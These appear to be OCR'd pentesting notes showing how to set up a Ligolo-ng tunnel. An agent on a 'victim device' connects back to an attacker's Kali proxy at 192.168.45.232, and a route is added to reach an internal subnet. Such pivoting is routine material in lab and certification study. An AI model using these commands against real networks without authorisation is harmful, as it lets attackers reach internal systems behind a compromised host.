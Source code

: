 
	1. Setting up Ligolo-ng
		
		○ ``` sudo ip tuntap add user $USER mode tun ligolo ```
		○ ``` sudo ip link setligolo up ```

	2. Running proxy on Kali device:

	- ``` ./proxy -selfcert ``` - Server

	3. Running agent on Victim Device:

	- ``` ./agent -retry -ignore-cert -connect 192.168.45.232:11601 ``` connect to kali server

	4. Checking session in proxy:

	- ``` session ``` - Prints session, use 1 if 1

	1. Checking interfaces using ifconfig:

	- ``` ifconfig ``` - Note the IP address of the internal interface

	6. Adding route in Kali to tunnel:

	- ``` sudo ip route add 10.4.219.0/24 dev ligolo ``` - After tunneling we can use the interface ip to communicate

	7. Starting tunneling:

``` start ``` - in proxy
